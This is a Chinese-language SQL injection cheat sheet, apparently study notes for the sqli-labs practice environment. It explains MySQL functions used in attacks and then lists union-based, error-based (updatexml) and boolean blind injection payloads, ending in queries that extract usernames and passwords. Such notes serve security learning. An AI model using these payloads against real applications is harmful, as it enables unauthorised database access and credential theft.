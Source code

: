 4.updatexml(xml_doument,XPath_string,new_value)：当第二个参数包含特殊符号时会报错，并将第二个参数的内容显示在报错信息中。

5.extractvalue('XML_document','Xpath_string')：若xpath_expr参数不符合xpath格式，就会报错。

6.length()：获取当前数据库名的长度，以字节为单位。

7.substr(a,b,c)：a是要截取的字符串，b是截取的位置，c是截取的长度

8.COUNT() ：返回匹配指定条件的行数

9.limit n,m ：第一个参数n表示的游标的偏移量，初始值为0，第二个参数m表示的是想要获取多少条数据

10.Sleep():可以使计算机程序（进程，任务或线程）进入休眠，使其在一段时间内处于非活动状态

11.if(条件1,条件2,条件3),1正确则输出2,否则输出3

- #### 部分具体注入过程

```
//数字型

?id=1 order by 1--+
?id=1 order by 2--+
?id=1 order by 3--+
?id=1 order by 4--+
?id=-1 union select 1,2,3--+
?id=-1 union select 1,database(),version()--+
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1 union select 1,2,group_concat(username ,id , password) from users--+
```

------

```
//报错注入

?id=-1" and updatexml(1,concat('$',(select database())),1) --+
?id=-1" and updatexml(1,concat('$',(select version())),1) --+
?id=1' and substr(version,1,1)=5 --+
?id=-1" and updatexml(1,concat('$',(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) --+
?id=-1" and updatexml(1,concat('$',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),1) --+
?id=-1" and updatexml(1,concat('$',(select group_concat(id,username,password) from users)),1) --+
?id=-1" and updatexml(1,concat('$',(select username from users limit 0,1)),1) --+
```

------

```
//布尔盲注

**//****数据库**
?id=1" and length(database())>10 --+**//****长度**
?id=1" and ascii(substr(database(),1,1))>97 --+
?id=1" and ascii(substr(database(),2,1))>97 --+**//****数据库名**

**//****表**
?id=1" and (select count(table_name) from information_schema.tables where table_schema=database())>5--+**//****表个数**
?id=1" and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>10--+
?id=1" and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>10--+**//****表长度**
?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97--+
```